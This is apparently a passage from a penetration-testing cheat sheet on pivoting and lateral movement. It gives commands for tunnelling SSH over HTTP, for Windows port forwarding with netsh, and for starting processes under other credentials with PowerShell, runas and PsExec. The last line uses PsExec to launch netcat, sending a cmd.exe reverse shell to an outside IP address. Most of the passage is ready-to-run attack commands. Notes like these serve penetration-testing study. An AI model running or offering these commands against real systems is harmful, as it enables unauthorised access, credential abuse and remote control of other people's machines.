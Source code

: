 #### HTTP Tunnel: SSH Over HTTP

```bash
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80

# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
ssh localhost -p 8080
```

#### Netsh - Windows Port Forwarding

```bash
# requires admin
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

### RunAs / Start Process As

#### PowerShell

```bash
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

#### CMD

```bash
# Requires interactive console
runas /user:userName cmd.exe
```

#### PsExec

```csharp
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```
